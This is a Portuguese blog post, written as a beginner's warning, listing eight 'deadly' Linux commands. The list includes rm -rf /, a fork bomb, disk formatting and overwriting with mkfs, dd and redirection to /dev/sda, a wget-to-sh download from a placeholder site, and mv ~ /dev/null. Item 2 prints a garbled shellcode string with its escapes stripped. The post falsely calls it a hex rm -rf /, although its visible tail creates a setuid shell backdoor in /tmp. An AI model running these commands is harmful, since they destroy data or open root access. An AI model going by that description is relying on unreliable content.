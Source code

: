 ```yaml
---
title:  Os 8 Comandos da Morte
categories: seguranca
tags: linux shell
image: dark-hole.png
description: Entenda melhor alguns comando que você não deve executar sem querer no terminal do Linux.
---
```


Existem comandos no Linux que são realmente perigosos e podem destruir todo o sistema. Não é incomum ver trolls recomendarem que novatos no mundo Linux executem tais comandos simplesmente para tirarem sarro.

Aprender comandos que você não deve executar pode lhe ajudar a identificar possíveis ameaças e aumentar sua compreensão de como o Linux funciona.

Note que muitos desses comandos só são realmente perigosos se forem executados como Super Usuário (root).

## 1 – Excluir tudo

```sh
rm –rf /
```

O comando `rm -rf /` excluirá todo o sistema, incluindo todos os dispositivos que estejam montados.

### Interpretação:

- `rm`: Remove arquivos
- `rm -r`: Remove diretórios e arquivos recursivamente
- `rm -rf`: Remove diretórios e arquivos recursivamente de maneira forçada
- `/`: Local a ser removido


Algumas distribuições executarão esse comando sem lhe perguntar nada, então tenha atenção com isso!

O comando `rm` também pode ser usado de outras formas perigosas.

Por exemplo: `rm -rf ~` apaga tudo dentro da pasta home, e `rm -rf .*` apaga todos os arquivos ocultos, que podem possuir configurações importantes.

**Lição**: Muita atenção ao usar o `rm`.

## 2 – Excluir tudo (versão hexadecimal)

```sh
char esp[] __attribute__ ((section(“.text”))) /* e.s.p
release */
= “xebx3ex5bx31xc0x50x54x5ax83xecx64x68”
“xffxffxffxffx68xdfxd0xdfxd9x68x8dx99”
“xdfx81x68x8dx92xdfxd2x54x5exf7x16xf7”
“x56x04xf7x56x08xf7x56x0cx83xc4x74x56”
“x8dx73x08x56x53x54x59xb0x0bxcdx80x31”
“xc0x40xebxf9xe8xbdxffxffxffx2fx62x69”
“x6ex2fx73x68x00x2dx63x00”
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;
```

Lembre-se desse formato!

Esse código é a versão hexadecimal do `rm -rf /`. Executá-lo também irá destruir todo o sistema.

**Lição**: Nunca execute comandos de aparência estranha que você não saiba para o que serve.

## 3 – Fork Bomb

```sh
:(){ :|: & };:
```

A linha acima é uma função em bash de aparência simples, mas perigosa.

Esta linha curta define uma função que cria novas cópias de si mesmo. O processo replica-se continuamente, cada uma de suas cópias também replicam-se e rapidamente ocupa toda a capacidade de processamento da CPU e o espaço da memória. Isso fará com que o computador trave. Basicamente, é considerado um ataque de negação de serviços.

**Lição**: Funções bash são poderosas, mesmo que sejam muito curtas.

## 4 – Formatar HD

```sh
mkfs.ext4 /dev/sda1
```

O comando `mkfs.ext4 /dev/sda1` é simples de entender:

### Interpretação:

- `mkfs.ext4`: Define a criação de um novo sistema de arquivos ext4.
- `/dev/sda1`: Local onde será criado o novo sistema de arquivos.

Tomados em conjunto, este comando pode ser equivalente a formatação da partição C: no Windows - ele irá limpar os arquivos em sua primeira partição e substituí-los com um novo sistema de arquivos.

Este comando pode vir de outras formas, como `mkfs.ext3 /dev/sdb2` que formata a segunda partição no segundo disco rígido com o sistema de arquivos _ext3_.

**Lição**: Cuidado com a execução de comandos que irão para _/dev/sd*_.


## 5 – Escrever diretamente no HD

```sh
comando > /dev/sda
```

Essa linha de comando funciona de forma semelhante a anterior. Ela executa um comando e envia a saída desse comando para o primeiro disco rígido, escrevendo os dados diretamente na unidade de disco rígido e danifica o sistema de arquivos.

### Interpretação:

- `comando`: Pode ser qualquer comando.
- `>`: Envia a saída do comando para algum local.
- `/dev/sda`: Local para onde o comando é enviado.

**Lição**: Como no exemplo 4, cuidado com a execução de comandos que envolvem dispositivos de disco rígido com saída para _/dev/sd*_.

## 6 – Escrita aleatória no HD

```sh
dd if=/dev/random of=/dev/sda
```

O comando acima também destrói os dados de um disco rígido.

### Interpretação:

- `dd`: Executa a cópia de um local para outro.
- `if=/dev/random`: Usa dispositivos de entrada _/dev_ aleatórios.
- `of=/dev/sda`: Saída para o primeiro disco rígido, substituindo o seu sistema de arquivos com dados aleatórios.

**Lição**: O comando `dd` copia dados de um local para outro, o que pode ser perigoso se for copiando diretamente para um dispositivo.

## 7 – Baixar e executar scripts

```sh
wget http://site.com/arquivo -O - | sh
```

A linha acima faz download de um arquivo na web e o envia para o sh, que executa o conteúdo do script. Isso pode ser perigoso se não souber o que há no script ou se sua fonte não for confiável.

### Interpretação:

- `wget`: Realiza downloads.
- `http://site.com/arquivo`: Local a ser feito o download.
- `|`: Pipe (envia) a saída do comando wget (o conteúdo do arquivo baixado) para outro comando.
- `sh`: Comando que executará o arquivo.

**Lição** Não baixe e execute scripts não confiáveis.

## 8 – Mover diretórios para um buraco negro

```sh
mv ~ /dev/null
```

O _/dev/null_ é outro local especial que se deve ter atenção.

Qualquer coisa movida para _/dev/null_ é destruída. Pense nisso como um buraco negro.

### Interpretação:

- `mv`: Move arquivos ou diretórios.
- `~`: Representa pasta home do usuário logado.
- `/dev/null`: Local para onde a pasta home será movida.

**Lição**: O caractere ~ representa a pasta pessoal do usuário logado e move-la para _/dev/null_ irá destruí-la totalmente.
